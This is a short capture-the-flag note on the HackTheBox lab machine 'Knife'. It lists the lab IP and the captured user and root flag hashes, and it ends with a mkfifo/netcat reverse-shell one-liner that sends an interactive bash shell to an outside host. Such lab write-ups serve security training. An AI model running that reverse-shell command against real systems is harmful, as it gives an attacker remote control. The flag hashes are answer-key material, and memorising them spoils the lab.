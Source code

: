 # HackTheBox Knife

> Saikat Karmakar | AUG 31 : 2021

> ip: 10.10.10.242

---


1. user.txt
```
cb8f9c061388738452e6a47a1e6709cb
```

2. root.txt
```
15cf96af67fd1f5b779e726db6140dc3
```


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.12 1234 >/tmp/f